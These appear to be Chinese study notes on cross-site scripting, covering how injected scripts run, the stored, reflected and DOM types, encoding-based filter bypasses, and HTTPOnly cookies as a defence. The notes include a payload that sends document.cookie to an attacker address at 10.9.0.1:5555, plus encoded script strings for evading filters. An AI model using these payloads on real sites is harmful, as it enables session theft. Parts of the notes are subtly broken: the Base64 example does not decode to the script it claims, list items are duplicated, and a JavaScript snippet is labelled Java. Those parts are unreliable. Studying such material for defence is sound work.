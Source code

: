 # 后记

## 原理

```
<script type="text/javascript"
    src="http://www.example.com/myscripts.js">
</script>
```

可以在myscripts.js中插入恶意代码，例如：

```
alert('恶意代码已执行！');
```

当用户访问包含上述代码的网页时，恶意代码将被执行，弹出一个警告框

如果攻击者希望通过 JavaScript 代码将 cookie 发送给自己，可以如下构造js代码：

```java
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>'); </script>
```

当 JavaScript 插入 img 标记时，浏览器尝试从 src 字段中的 URL 加载图像; 这导致向攻击者的机器发送 HTTP GET 请求

## 类型

XSS攻击可以分为以下几种类型：

1. 存储型XSS攻击，又称持久型XSS：攻击者将恶意脚本代码存储在Web应用程序的数据库中，当用户访问包含该恶意代码的页面时，恶意代码会被执行。
2. 反射型XSS攻击，又称非持久型XSS：攻击者将恶意脚本代码作为参数发送给Web应用程序，Web应用程序将该参数反射回给用户，从而执行恶意代码。
3. DOM型XSS攻击：攻击者通过修改网页的DOM结构，将恶意脚本代码注入到网页中，从而实现攻击。

## 绕过

1. HTML编码绕过：攻击者通过对恶意脚本代码进行HTML编码，从而绕过应用程序的过滤和验证。
2. JavaScript编码绕过：攻击者通过对恶意脚本代码进行JavaScript编码，从而绕过应用程序的过滤和验证。
3. DOM型XSS攻击：攻击者通过修改网页的DOM结构，将恶意脚本代码注入到网页中，从而实现攻击。

### 编码绕过

1. Unicode编码：攻击者通过对恶意脚本代码进行Unicode编码，从而绕过应用程序的过滤和验证。例如，将`<script>alert('XSS')</script>`编码为`\u003Cscript\u003Ealert('XSS')\u003C/script\u003E`。
2. Base64编码：攻击者通过对恶意脚本代码进行Base64编码，从而绕过应用程序的过滤和验证。例如，将`<script>alert('XSS')</script>`编码为`PHNjcmlwdD5hbGVydCgnWFMnKTwvc2NyaXB0Pg==`。
3. 十六进制编码：攻击者通过对恶意脚本代码进行十六进制编码，从而绕过应用程序的过滤和验证。例如，将`<script>alert('XSS')</script>`编码为`%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%27%58%53%53%27%29%3C%2F%73%63%72%69%70%74%3E`。
4. 双重编码：攻击者通过对恶意脚本代码进行双重HTML编码，从而绕过应用程序的过滤和验证。例如，将`<script>alert('XSS')</script>`编码为`%253Cscript%253Ealert%2528%2527XSS%2527%2529%253C%252Fscript%253E`。
5. 十六进制编码：攻击者通过对恶意脚本代码进行十六进制编码，从而绕过应用程序的过滤和验证。例如，将`<script>alert('XSS')</script>`编码为`%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%27%58%53%53%27%29%3C%2F%73%63%72%69%70%74%3E`。

## 防护

- 使用HTTPOnly Cookie。HTTPOnly Cookie只能通过HTTP协议传输，无法通过JavaScript等脚本语言访问，从而防止恶意脚本代码访问Cookie。这样，即使恶意脚本代码能够注入到网页中，也无法窃取用户的会话信息